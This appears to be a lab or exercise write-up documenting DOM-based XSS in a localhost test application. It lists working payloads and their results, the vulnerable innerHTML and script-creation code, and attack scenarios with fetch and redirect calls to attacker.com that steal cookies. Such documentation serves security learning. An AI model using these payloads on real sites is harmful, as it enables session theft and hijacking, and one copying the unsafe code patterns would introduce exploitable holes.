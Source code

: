 # xss payloads documentation

## vulnerability analysis

**target application**: `http://localhost:8000/`
**vulnerability type**: dom-based xss
**attack vector**: form input field with insufficient sanitization

## successful payloads

### 1. direct DOM Manipulation

**payload**: `document.getElementById('cookieOutput').innerHTML = 'Cookie value: '+document.cookie`
**payload**: `alert(document.cookie)`
**injection point**: text input field
**execution context**: script element creation
**result**: successfully displays cookie content "Cookie value: ftcookies=if_you_see_me_its_win"

### 2. direct javascript execution

**payload**: `alert(document.cookie)`
**injection point**: text input field
**execution context**: script element creation
**result**: open a popup and successfully displays cookie content "ftcookies=if_you_see_me_its_win"

### 3. event handler exploitation

**payload**: `<img src=x onerror=alert(document.cookie)>`
**injection point**: text input field via innerhtml
**execution context**: image load error event
**result**: open a popup and successfully displays cookie content "ftcookies=if_you_see_me_its_win"

### 5. input focus-based payload

**payload**: `<input onfocus=alert(document.cookie) autofocus>`
**injection point**: text input field via innerhtml
**execution context**: automatic focus event
**result**: create a input text that display a popup and successfully display cookie content "ftcookies=if_you_see_me_its_win"

## technical analysis

### root cause

the application contains two critical vulnerabilities:

   1 - **unsafe innerhtml usage**:

```javascript
   document.getelementbyid("output").innerhtml = "<b>" + userinput + "</b>";
```

   allows html/javascript injection through dom manipulation.

   2 - **direct script element creation**:

```javascript
   var script = document.createelement("script");
   script.textcontent = userinput;
   document.body.appendchild(script);
```

   directly executes user input as javascript code.

### attack scenarios

#### scenario 1: cookie theft

- **payload**: `fetch('http://attacker.com/steal?cookie=' + document.cookie)`
- **impact**: exfiltrates session cookies to external server
- **risk level**: critical

#### scenario 2: session hijacking

- **payload**: `window.location='http://attacker.com/login?redirect=' + document.url`
- **impact**: redirects user to malicious login page
- **risk level**: high

## testing environment

- **browser**: [firefox v140.0.2]
- **date**: [06/08/2025]
- **tester**: [Daniel Trigo - dande-je]
